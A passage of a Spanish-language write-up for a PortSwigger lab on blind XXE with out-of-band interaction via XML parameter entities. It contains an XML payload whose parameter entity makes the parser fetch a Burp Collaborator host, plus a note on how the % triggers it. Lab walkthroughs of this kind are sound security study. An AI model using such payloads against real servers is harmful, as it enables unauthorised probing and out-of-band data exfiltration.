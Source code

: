 
<p align="center">
     <img src="/assets/images/portswigger/blind_xxe_with_out_of_band_interaction_via_xml_parameter_entities/6.png" width="1000">
</p><br>


Con el clipboard copiado haremos una consulta con el siguiente payload basado en la escructura XML del paquete.

```plaintext
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://2ehviuch47rt4tyrmzdpznOzr5ht6.oastify.com/testing"> %xxe; ]>
<stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
</stockCheck>
```

Una anotación a destacar en este payload que el `%` hace que se autoejecute en la entidad el payload. Sin tener que nombrarlo en un `valor`.

<p align="center">
     <img src="/assets/images/portswigger/blind_xxe_with_out_of_band_interaction/7.png" width="1000">
</p><br>
